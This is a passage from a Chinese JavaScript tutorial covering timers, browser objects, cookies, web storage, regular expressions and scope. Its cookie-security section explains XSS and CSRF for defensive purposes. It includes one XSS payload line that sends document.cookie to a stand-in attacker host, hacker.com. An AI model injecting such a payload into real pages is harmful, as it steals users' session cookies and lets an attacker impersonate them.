setTimeout(回调函数, 延迟时间)
```

`setTimeout` 仅仅只执行一次，所以可以理解为就是把一段代码延迟执行，平时省略 `window`。间歇函数 `setInterval` 是每隔一段时间就执行一次，平时省略 `window`。清除延时函数使用 `clearTimeout(timerId)`。

```html
<body>
  <script>
    // 1. 开启延迟函数
    let timerId = setTimeout(function () {
      console.log('我只执行一次')
    }, 3000)

    // 1.1 延迟函数返回的还是一个正整数数字，表示延迟函数的编号
    console.log(timerId)

    // 1.2 延迟函数需要等待时间，所以下面的代码优先执行

    // 2. 关闭延迟函数
    clearTimeout(timerId)
  </script>
</body>
```

> 注意
>
> * 延时函数需要等待，所以后面的代码先执行
> * 返回值是一个正整数，表示定时器的编号

### 12.4 JS 执行机制

JavaScript 是单线程的，也就是说同一个时间只能做一件事，因此任务被分为同步任务和异步任务。

* 同步任务：在主线程上排队执行的任务，前一个任务执行完才会执行后一个任务
* 异步任务：不进入主线程，而是进入任务队列，等主线程空闲时再执行，例如普通事件（`click`、`resize` 等）和定时器（`setInterval`、`setTimeout` 等）

```javascript
console.log(1)
console.log(2)
setTimeout(function () {
  console.log(3)
}, 0)
console.log(4)

// 执行结果：1 2 4 3
```

> 提示
>
> 延时函数即使延迟时间为 0，也会等主线程的同步任务执行完才执行。主线程不断从任务队列中读取异步任务执行，这个过程称为事件循环（Event Loop）。

### 12.5 location 对象

`location`（地址）它拆分并保存了 URL 地址的各个组成部分，它是一个对象。

| 属性 / 方法 | 说明 |
| --- | --- |
| href | 属性，获取完整的 URL 地址，赋值时用于地址的跳转 |
| search | 属性，获取地址中携带的参数，符号 `?` 后面部分 |
| hash | 属性，获取地址中的哈希值，符号 `#` 后面部分 |
| reload() | 方法，用来刷新当前页面，传入参数 `true` 时表示强制刷新 |

```html
<body>
  <form>
    <input type="text" name="search"> <button>搜索</button>
  </form>
  <a href="#/music">音乐</a>
  <a href="#/download">下载</a>

  <button class="reload">刷新页面</button>
  <script>
    // 1. href 属性（重点）得到完整地址，赋值则是跳转到新地址
    console.log(location.href)

    // 2. search 属性  得到 ? 后面的地址
    console.log(location.search) // ?search=笔记本

    // 3. hash 属性  得到 # 后面的地址
    console.log(location.hash)

    // 4. reload 方法  刷新页面
    const btn = document.querySelector('.reload')
    btn.addEventListener('click', function () {
      // location.reload() // 页面刷新
      location.reload(true) // 强制页面刷新 ctrl+f5
    })
  </script>
</body>
```

### 12.6 navigator 对象

`navigator` 是对象，该对象下记录了浏览器自身的相关信息，常用的属性和方法是通过 `userAgent` 检测浏览器的版本及平台。

```javascript
// 检测 userAgent（浏览器信息）
(function () {
  const userAgent = navigator.userAgent
  // 验证是否为 Android 或 iPhone
  const android = userAgent.match(/(Android);?[\s\/]+([\d.]+)?/)
  const iphone = userAgent.match(/(iPhone\sOS)\s([\d_]+)/)
  // 如果是 Android 或 iPhone，则跳转至移动站点
  if (android || iphone) {
    location.href = 'http://m.itcast.cn'
  }
})()
```

其他常用属性：

* `navigator.language`：浏览器当前使用的语言，如 `'zh-CN'`
* `navigator.userAgent`：浏览器标识字符串，可以判断浏览器类型或是否移动端

```javascript
console.log(navigator.language) // zh-CN

// 判断是否移动端访问
function isMobile() {
  return /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i.test(navigator.userAgent)
}
```

> 注意
>
> `userAgent` 可以被浏览器或插件修改，不能作为安全判断依据；现代浏览器更推荐用特性检测（判断 API 是否存在）。

### 12.7 history 对象

`history`（历史）是对象，主要管理历史记录，该对象与浏览器地址栏的操作相对应，如前进、后退等。

**使用场景**：`history` 对象一般在实际开发中比较少用，但是会在一些 OA 办公系统中见到。




```html
<body>
  <button class="back">←后退</button>
  <button class="forward">前进→</button>
  <script>
    // 1. 前进
    const forward = document.querySelector('.forward')
    forward.addEventListener('click', function () {
      // history.forward()
      history.go(1)
    })
    // 2. 后退
    const back = document.querySelector('.back')
    back.addEventListener('click', function () {
      // history.back()
      history.go(-1)
    })
  </script>
</body>
```

### 12.8 screen 对象

`screen` 对象保存屏幕信息：

* `screen.width` / `screen.height`：屏幕分辨率，例如 `1920 × 1080`
* `screen.availWidth` / `screen.availHeight`：可用屏幕区域（排除任务栏等），例如 `1920 × 1040`

```javascript
console.log(screen.width, screen.height) // 屏幕分辨率
console.log(screen.availWidth, screen.availHeight) // 去掉任务栏后的可用区域
```

> 提示
>
> 做响应式布局时更常用 `window.innerWidth` / `window.innerHeight`（视口尺寸），`screen` 反映的是**显示器**的分辨率，两者不是一回事。

### 12.9 Cookie

#### 12.9.1 什么是 Cookie

Cookie 是存储在浏览器中的小型文本数据（键值对），前端可以生成，服务器也可以生成。服务器生成后通过**响应头** `Set-Cookie` 发送给浏览器，Cookie 最终保存在客户端。

Cookie 最常见的用途是**会话管理**：HTTP 是无状态协议，一次请求响应结束后连接就断开了，服务器无法知道用户是否已登录。用户首次登录成功后，服务器通过 `Set-Cookie` 向浏览器写入一个 Cookie（传统做法存会话 id，现代做法存 token），之后浏览器每次请求都会**自动携带**该 Cookie，服务器据此识别用户身份。

#### 12.9.2 基本操作

`document.cookie` 是一个字符串，读取时返回 `'key1=value1; key2=value2'` 的形式，需要自己解析：

```javascript
// 1. 设置（写入）
document.cookie = 'username=John'
document.cookie = 'productId=p001'

// 也可以一次带上多个属性
document.cookie =
  'username=JohnDoe' +
  '; expires=Fri, 31 Dec 2026 23:59:59 UTC' + // 过期时间
  '; max-age=3600' + // 存活秒数，优先级高于 expires
  '; domain=.example.com' + // 对 example.com 及其子域有效
  '; path=/' + // 全站可访问
  '; Secure' // 仅 HTTPS 传输

// 2. 读取（一次读出当前域名下所有可读 Cookie）
console.log(document.cookie) // 'username=JohnDoe; productId=p001'

// 3. 删除：把过期时间设为过去的时间
document.cookie = 'username=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/'
```

在 Chrome 开发者工具的 Application → Cookies 面板中可以查看当前站点的 Cookie。

#### 12.9.3 常见属性

| 属性 | 作用 | 示例 |
| --- | --- | --- |
| `expires` | 设置过期时间（不设置则关闭浏览器后失效） | `expires=Thu, 18 Dec 2026 12:00:00 UTC` |
| `max-age` | 设置存活时间（秒），优先级高于 `expires` | `max-age=3600`（1 小时后过期） |
| `domain` | 指定 Cookie 生效的域名 | `domain=.example.com` |
| `path` | 指定 Cookie 生效的路径，默认 `/` | `path=/admin` |
| `Secure` | 只在 HTTPS 下传输 | `Secure` |
| `HttpOnly` | 禁止 JavaScript 读取（防 XSS），**只能由服务器设置** | `Set-Cookie: token=abc; HttpOnly` |
| `SameSite` | 限制跨站请求是否携带 Cookie（防 CSRF） | `SameSite=Strict` |

#### 12.9.4 document.cookie 的访问权限规则

1. **设置了 `HttpOnly`**：前端通过 `document.cookie` **完全读不到**，这是专门为防止 XSS 窃取 Cookie 设计的安全特性；`HttpOnly` 只能由服务器在响应头中设置
2. **未设置 `domain`**：只能在**完全相同**的域名下访问，子域名不行。例如在 `www.example.com` 写入后：
   * `www.example.com` 可以访问
   * `www.example.com/user/login` 可以访问
   * `blog.example.com` **不可以**访问
3. **设置了 `domain=.example.com`**：`example.com` 及其所有子域（`www.example.com`、`api.example.com`）都能访问
4. **`path` 限制**：设置 `path=/admin` 后，只有 `/admin/*` 下的页面能读取；不设置时默认 `path=/`

#### 12.9.5 Cookie 与 WebStorage 的对比

| 特性 | Cookie | localStorage | sessionStorage |
| --- | --- | --- | --- |
| 存储大小 | 约 4KB | 约 5～10MB | 约 5～10MB |
| 生命周期 | 可设置过期时间，默认关闭浏览器失效 | 永久，除非手动清除 | 会话级，关闭标签页清除 |
| 是否随请求自动发送 | **是**（影响性能） | 否 | 否 |
| 前端是否可读 | 默认可以，`HttpOnly` 时不可以 | 可以 | 可以 |
| 适用场景 | 会话管理、小数据 | 长期缓存 | 临时数据 |

**选择建议**：敏感数据用带 `HttpOnly` 的 Cookie，非敏感的大数据用 `localStorage`（长期）或 `sessionStorage`（临时）。

#### 12.9.6 XSS 攻击

XSS（Cross-Site Scripting，跨站脚本攻击）指攻击者把恶意脚本注入页面，在其他用户的浏览器中执行。以没有过滤的评论区为例：

1. 攻击者提交评论：`<script>new Image().src = 'http://hacker.com/steal?cookie=' + document.cookie</script>`
2. 网站没有过滤，恶意代码连同 `<script>` 一起存入数据库
3. 其他用户访问页面，浏览器**执行**这段脚本
4. `document.cookie` 取出该用户在当前站点的 Cookie，通过图片请求发送到攻击者服务器
5. 攻击者拿到会话 id 后即可冒充用户登录

防范要点：

* 服务器对用户输入进行过滤 / 转义，输出到页面前做 HTML 编码
* 敏感 Cookie 设置 `HttpOnly`，即使页面被注入脚本，JS 也读不到
* 设置 `Content-Security-Policy`（CSP）限制可执行的脚本来源
* 前端避免使用 `innerHTML` 直接插入用户输入，优先用 `textContent`

> 注意
>
> `localStorage` 同样容易受 XSS 影响，一旦站点存在 XSS 漏洞，攻击者可以读到其中所有数据，所以**不要把敏感信息放进 localStorage**。

#### 12.9.7 CSRF 攻击

CSRF（Cross-Site Request Forgery，跨站请求伪造）俗称“钓鱼网站”，利用的是浏览器**自动携带 Cookie** 的机制：

1. 用户在 `www.your-bank.com` 登录，浏览器保存了银行的会话 Cookie
2. 用户被诱导访问攻击者网站 `www.hacker-site.com`
3. 攻击者网站在页面里放一张隐藏图片：``
4. 浏览器加载这张“图片”时，**自动向银行发起请求，并自动携带银行域名下的 Cookie**
5. 银行服务器看到合法的会话 Cookie，就执行了转账

防范要点：

* **CSRF Token（最常用）**：每个表单或请求携带一个随机令牌，服务器校验令牌；攻击者拿不到令牌，伪造的请求就不被认可

```html
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6" />
  <input type="text" name="amount" />
  <button>转账</button>
</form>
```

* **SameSite Cookie**：限制跨站请求携带 Cookie，`SameSite=Strict` 完全禁止跨站发送，`Lax` 允许部分安全的跨站导航

```http
Set-Cookie: sessionId=abc123; SameSite=Strict; HttpOnly; Secure
```

> 提示
>
> 跨站的意思是：**发送请求的网站**与**请求的目标网站**不是同一个站点。CSRF 利用的是“浏览器会自动带上目标站点的 Cookie”，而不是攻击者能读到 Cookie —— 后者是 XSS。

### 12.10 本地存储

本地存储：将数据存储在本地浏览器中。

常见的使用场景：页面刷新数据不丢失，例如 <https://todomvc.com/examples/vanilla-es6/>。

好处：

* 页面刷新或者关闭不丢失数据，实现数据持久化
* 容量较大，`sessionStorage` 和 `localStorage` 约 5M 左右

#### 12.10.1 localStorage（重点）

* 作用：数据可以长期保留在本地浏览器中，刷新页面和关闭页面，数据也不会丢失
* 特性：以键值对的形式存储，并且存储的是字符串，省略了 `window`



```html
<body>
  <script>
    // 本地存储 - localStorage 存储的是字符串
    // 1. 存储
    localStorage.setItem('age', 18)

    // 2. 获取
    console.log(typeof localStorage.getItem('age'))

    // 3. 删除
    localStorage.removeItem('age')
  </script>
</body>
```

#### 12.10.2 sessionStorage

特性：

* 用法跟 `localStorage` 基本相同
* 区别是：当页面浏览器被关闭时，存储在 `sessionStorage` 的数据会被清除

存储：`sessionStorage.setItem(key, value)`；获取：`sessionStorage.getItem(key)`；删除：`sessionStorage.removeItem(key)`。

#### 12.10.3 localStorage 存储复杂数据类型

* 问题：本地只能存储字符串，无法存储复杂数据类型
* 解决：需要将复杂数据类型转换成 JSON 字符串，再存储到本地
* 语法：`JSON.stringify(复杂数据类型)`

JSON 字符串：

* 首先是 1 个字符串
* 属性名使用双引号引起来，不能单引号
* 属性值如果是字符串型也必须双引号

```javascript
const goods = {
  name: '小米',
  price: 1999
}
// 把对象转换为 JSON 字符串  JSON.stringify
localStorage.setItem('goods', JSON.stringify(goods))

// 把 JSON 字符串转换为对象  JSON.parse
console.log(JSON.parse(localStorage.getItem('goods')))
```

> 注意
>
> 因为本地存储里面取出来的是字符串，不是对象，无法直接使用，所以要借助 `JSON.parse(JSON字符串)` 把取出来的字符串转换为对象。

### 12.11 数组 map 和 join 方法

**map 方法**

* 使用场景：map 可以遍历数组处理数据，并且返回新的数组

```javascript
const arr = ['red', 'blue', 'pink']
// 数组 map 方法 处理数据并且返回一个数组
const newArr = arr.map(function (ele, index) {
  // console.log(ele) // 数组元素
  // console.log(index) // 索引号
  return ele + '颜色'
})
console.log(newArr)
```

> 提示
>
> map 也称为映射。映射是个术语，指两个元素的集之间元素相互“对应”的关系。map 重点在于有返回值，forEach 没有返回值（undefined）。

**join 方法**

* 作用：`join()` 方法用于把数组中的所有元素转换一个字符串

```javascript
const arr = ['red', 'blue', 'pink']
const newArr = arr.map(function (ele) {
  return ele + '颜色'
})
console.log(newArr)

// 数组 join 方法  把数组转换为字符串
// 小括号为空则逗号分割
console.log(newArr.join()) // red颜色,blue颜色,pink颜色
// 小括号是空字符串，则元素之间没有分隔符
console.log(newArr.join('')) // red颜色blue颜色pink颜色
console.log(newArr.join('|')) // red颜色|blue颜色|pink颜色
```

<a id="ch13"></a>
## 13. 正则表达式

> 目标：能够利用正则表达式完成注册页面的表单验证，具备常见的表单验证能力。

### 13.1 正则表达式是什么

**正则表达式**（Regular Expression）是一种字符串匹配的模式（规则）。

**使用场景**：

* 例如验证表单：手机号表单要求用户只能输入 11 位的数字（匹配）
* 过滤掉页面内容中的一些敏感词（替换），或从字符串中获取我们想要的特定部分（提取）等



### 13.2 正则基本使用

* 定义规则

```javascript
const reg = /表达式/
```

* 其中 `/  /` 是正则表达式字面量
* 正则表达式也是**对象**

* 使用正则
  * `test()` 方法用来查看正则表达式与指定的字符串是否匹配
  * 如果正则表达式与指定的字符串匹配，返回 `true`，否则 `false`
  * `exec()` 方法在一个指定字符串中执行一个搜索匹配
  * 如果匹配成功，`exec()` 方法返回一个数组（数组的第 0 项就是匹配到的字符串），否则返回 `null`

```html
<body>
  <script>
    // 正则表达式的基本使用
    const str = 'web前端开发'
    // 1. 定义规则
    const reg = /web/

    // 2. 使用正则  test()
    console.log(reg.test(str)) // true  如果符合规则匹配上则返回 true
    console.log(reg.test('java开发')) // false  如果不符合规则匹配上则返回 false

    // 3. 使用正则  exec()
    console.log(reg.exec(str)) // ['web', index: 0, input: 'web前端开发', groups: undefined]
    console.log(reg.exec('java开发')) // null  没有匹配上返回 null
  </script>
</body>
```

> 提示
>
> `test` 只关心“能不能匹配上”，得到的是布尔值；`exec` 关心“匹配到了什么”，得到的是数组。表单校验用 `test` 就够了。

### 13.3 元字符

* **普通字符**：大多数的字符仅能够描述它们本身，这些字符称作普通字符，例如所有的字母和数字。普通字符只能够匹配字符串中与它们相同的字符
* **元字符（特殊字符）**：是一些具有特殊含义的字符，可以极大提高了灵活性和强大的匹配功能

#### 13.3.1 边界符

正则表达式中的边界符（位置符）用来提示字符所处的位置，主要有两个字符。



```javascript
// 1. 匹配开头的位置 ^
const reg = /^web/
console.log(reg.test('web前端')) // true
console.log(reg.test('前端web')) // false

// 2. 匹配结束的位置 $
const reg1 = /web$/
console.log(reg1.test('web前端')) // false
console.log(reg1.test('前端web')) // true

// 3. 精确匹配 ^ $
const reg2 = /^web$/
console.log(reg2.test('前端web学习')) // false
console.log(reg2.test('web')) // true
console.log(reg2.test('webweb')) // false
```

> 提示
>
> 如果 `^` 和 `$` 在一起，表示必须是精确匹配。

#### 13.3.2 量词

量词用来设定某个模式重复次数。



```javascript
// 1. * 重复次数 >= 0 次
const reg1 = /^w*$/
console.log(reg1.test('')) // true
console.log(reg1.test('ww')) // true

// 2. + 重复次数 >= 1 次
const reg2 = /^w+$/
console.log(reg2.test('')) // false
console.log(reg2.test('ww')) // true

// 3. ? 重复次数 0 || 1
const reg3 = /^w?$/
console.log(reg3.test('w')) // true
console.log(reg3.test('ww')) // false

// 4. {n} 重复 n 次
const reg4 = /^w{3}$/
console.log(reg4.test('www')) // true
console.log(reg4.test('wwww')) // false

// 5. {n,} 重复次数 >= n
const reg5 = /^w{2,}$/
console.log(reg5.test('ww')) // true

// 6. {n,m}  n =< 重复次数 <= m
const reg6 = /^w{2,4}$/
console.log(reg6.test('wwww')) // true
console.log(reg6.test('wwwww')) // false
```

> 注意
>
> 逗号左右两侧千万不要出现空格，否则会匹配失败。

#### 13.3.3 范围

表示字符的范围，定义的规则限定在某个范围，比如只能是英文字母，或者数字等等。



```javascript
// 1. [abc] 匹配包含的单个字符，多选 1
const reg1 = /^[abc]$/
console.log(reg1.test('a')) // true
console.log(reg1.test('ab')) // false

// 2. [a-z] 连字符 单个
const reg2 = /^[a-z]$/
console.log(reg2.test('a')) // true
console.log(reg2.test('A')) // false
// 想要包含小写字母、大写字母、数字
const reg3 = /^[a-zA-Z0-9]$/
console.log(reg3.test('B')) // true

// 用户名可以输入英文字母、数字，可以加下划线，要求 6~16 位
const reg4 = /^[a-zA-Z0-9_]{6,16}$/
console.log(reg4.test('abcd1')) // false
console.log(reg4.test('ABcd12_')) // true

// 3. [^a-z] 取反符
const reg5 = /^[^a-z]$/
console.log(reg5.test('a')) // false
console.log(reg5.test('A')) // true
```

#### 13.3.4 字符类

某些常见模式的简写方式，区分字母和数字。





常见元字符与字符类速查：

| 写法 | 含义 |
| --- | --- |
| `.` | 匹配除换行符以外的任意字符 |
| `\w` | 字母、数字或下划线 |
| `\s` | 任意空白符 |
| `\d` | 数字 |
| `\b` | 单词的开始或结束位置 |
| `^` / `$` | 字符串的开始 / 结束位置 |
| `[a-z]` / `[0-9]` / `[abcde]` | 指定范围或集合中的任意 1 个字符 |
| `[a-z\-]` | a 到 z 再加 `-`，共 27 个字符中的任意 1 个 |

#### 13.3.5 转义、分组、分支与反义

**字符转义**：正则中用 `\` 转义特殊字符。例如 `\.` 表示普通的 `.` 字符，`\/` 表示普通的 `/`。

**分组**：用 `( )` 把一段规则包起来，作为一个整体处理，也可以配合量词重复：

```javascript
// (\d{1,3}\.){3}\d{1,3}  一个简单的 IP 地址匹配
const ipReg = /^(\d{1,3}\.){3}\d{1,3}$/
console.log(ipReg.test('192.168.1.1')) // true
```

**分支条件**：用 `|` 表示“或”，任意一边匹配即可：

```javascript
// 匹配 3 位区号 + 8 位号码，或 4 位区号 + 7 位号码
const telReg = /^0\d{2}-\d{8}|0\d{3}-\d{7}$/

// 写法二：用分组把分支括起来，避免 | 把整个表达式拆开
const telReg2 = /^(0\d{2}-\d{8}|0\d{3}-\d{7})$/
```

**反义**：大写字母形式表示“除了……”：

| 写法 | 含义 |
| --- | --- |
| `\W` | 任意不是字母、数字、下划线的字符 |
| `\S` | 任意不是空白符的字符 |
| `\D` | 任意非数字的字符 |
| `\B` | 不是单词开头或结束的位置 |
| `[^x]` | 除了 `x` 以外的任意字符 |
| `[^aeiou]` | 除了 a、e、i、o、u 以外的任意字符 |

> 注意
>
> `|` 的作用范围很大，`^a|b$` 表示“以 a 开头 **或** 以 b 结尾”，不是“整串是 a 或 b”。要让分支只作用于局部，必须用括号分组，如 `^(a|b)$`。

### 13.4 替换和修饰符

`replace` 替换方法，可以完成字符的替换。



```javascript
const str = '欢迎大家学习前端，相信大家一定能学好前端，都成为前端大神'
// 1. 替换  replace  需求：把前端替换为 web
// 1.1 replace 返回值是替换完毕的字符串
const strEnd = str.replace(/前端/, 'web') // 只能替换一个
```

修饰符约束正则执行的某些细节行为，如是否区分大小写、是否支持多行匹配等：

* `i` 是单词 ignore 的缩写，正则匹配时字母不区分大小写
* `g` 是单词 global 的缩写，匹配所有满足正则表达式的结果

```javascript
// 2. 修饰符 g 全部替换
const strEnd = str.replace(/前端/g, 'web')
console.log(strEnd)
```

### 13.5 正则插件


### 13.6 change 事件

给 input 注册 `change` 事件，值被修改并且失去焦点后触发。

### 13.7 判断是否有类



`元素.classList.contains()` 看看有没有包含某个类，如果有则返回 `true`，没有则返回 `false`。

### 13.8 正则补充：构造函数、m 标志与常用写法

#### 13.8.1 两种创建方式

| 方式 | 写法 | 适用场景 |
| --- | --- | --- |
| 字面量（推荐） | `const reg = /\d+/g` | 模式固定时，写法简洁 |
| 构造函数 | `const reg = new RegExp('\\d+', 'g')` | 模式需要动态拼接（如来自用户输入）时 |

> 注意
>
> 构造函数里的字符串要写**双重反斜杠**：`new RegExp('\\d+')`，因为字符串本身会先处理一次转义。

```javascript
// 动态创建：根据用户输入的词来搜索
const searchTerm = 'hello'
const dynamicRegex = new RegExp(searchTerm, 'i')
console.log(dynamicRegex.test('Hello World')) // true
```

#### 13.8.2 标志 i / g / m

* `i`（ignore）：忽略大小写
* `g`（global）：全局匹配，查找所有结果而不是在第一个匹配后停止；**不以换行符为分界**
* `m`（multiline）：多行模式，让 `^` 和 `$` 匹配每一行的开头和结尾；**以换行符为分界**

```javascript
const str = 'a1\na2\na3'

// 没有 m：^ 只匹配整个字符串的开头
console.log(str.match(/^a\d/g)) // ['a1']

// g + m：^ 匹配每一行的开头（想匹配每一行必须 gm 一起用）
console.log(str.match(/^a\d/gm)) // ['a1', 'a2', 'a3']
```

> 提示
>
> 如果正则中没有 `^` 或 `$`，`g` 和 `gm` 没有区别。

**取出字符串中所有匹配结果**，有两种写法：

```javascript
const str = '123x456y789'

// 写法一：exec + g，循环到返回 null 为止
const regExp = /\d+/g
let match
while ((match = regExp.exec(str)) !== null) {
  console.log(match[0]) // 123 456 789
}

// 写法二：字符串的 match + g，一步拿到全部
console.log(str.match(/\d+/g)) // ['123', '456', '789']
```

#### 13.8.3 常用正则速查

| 类别 | 用途 | 正则表达式 |
| --- | --- | --- |
| 基础验证 | 邮箱 | 见下方代码块 |
|  | 强密码（8+ 位，含大小写字母和数字） | `/^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)[a-zA-Z\d]{8,}$/` |
|  | 强密码（8+ 位，含大小写、数字和特殊字符） | `/^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]{8,}$/` |
| 数字 | 整数（允许正负） | `/^-?\d+$/` |
|  | 正整数（不含 0） | `/^[1-9]\d*$/` |
|  | 浮点数（允许正负） | `/^-?\d+(?:\.\d+)?$/` |
| 日期时间 | `YYYY-MM-DD` | `/^\d{4}-(0[1-9]\|1[0-2])-(0[1-9]\|[12][0-9]\|3[01])$/` |
|  | 24 小时制 `HH:MM` | `/^(?:[01]\d\|2[0-3]):[0-5]\d$/` |
| 网络 | IPv4 地址 | `/^(?:(?:25[0-5]\|2[0-4][0-9]\|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]\|2[0-4][0-9]\|[01]?[0-9][0-9]?)$/` |
|  | 十六进制颜色 | `/^#([A-Fa-f0-9]{6}\|[A-Fa-f0-9]{3})$/` |
| 身份 | 中国大陆手机号 | `/^(?:(?:\+\|00)86)?1[3-9]\d{9}$/` |
|  | 18 位身份证号 | `/^[1-9]\d{5}(?:19\|20)\d{2}(?:0[1-9]\|1[0-2])(?:0[1-9]\|[12]\d\|3[01])\d{3}[\dXx]$/` |
|  | 中国大陆邮政编码 | `/^[1-9]\d{5}$/` |
| 特殊格式 | GUID / UUID | `/^[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[1-5][0-9a-fA-F]{3}-[89abAB][0-9a-fA-F]{3}-[0-9a-fA-F]{12}$/` |

邮箱验证的完整写法：

```javascript
const emailReg =
  /^[a-zA-Z0-9.!#$%&'*+/=?^_`{|}~-]+@[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?(?:\.[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?)*$/

console.log(emailReg.test('abc@example.com')) // true
console.log(emailReg.test('abc@example')) // false
```

> 提示
>
> 表格里的正则含有“或”分支（`|`）。源码中写成 `\|` 只是为了不让竖线把 Markdown 表格拆开，实际正则里仍是单个 `|`，渲染后看到的就是正确写法。复杂正则（如邮箱、身份证）建议直接用成熟库或让 AI 生成，再配合测试用例验证。


---

# 第三部分 · JavaScript 进阶

<a id="ch14"></a>
## 14. 作用域与闭包

> 目标：学习作用域、变量提升、闭包等语言特征，加深对 JavaScript 的理解。

### 14.1 作用域

作用域（scope）规定了变量能够被访问的“范围”，离开了这个“范围”变量便不能被访问，作用域分为全局作用域和局部作用域。

### 14.2 局部作用域

局部作用域分为函数作用域和块作用域。

#### 14.2.1 函数作用域

在函数内部声明的变量只能在函数内部被访问，外部无法直接访问。

```javascript
// 声明 counter 函数
function counter(x, y) {
  // 函数内部声明的变量
  const s = x + y
  console.log(s) // 18
}
// 调用 counter 函数
counter(10, 8)
// 访问变量 s
console.log(s) // 报错
```

总结：

* 函数内部声明的变量，在函数外部无法被访问
* 函数的参数也是函数内部的局部变量
* 不同函数内部声明的变量无法互相访问
* 函数执行完毕后，函数内部的变量实际被清空了

#### 14.2.2 块作用域

在 JavaScript 中使用 `{}` 包裹的代码称为代码块，代码块内部声明的变量外部将【有可能】无法被访问。

```javascript
{
  // age 只能在该代码块中被访问
  let age = 18
  console.log(age) // 正常
}
// 超出了 age 的作用域
console.log(age) // 报错

let flag = true
if (flag) {
  // str 只能在该代码块中被访问
  let str = 'hello world!'
  console.log(str) // 正常
}
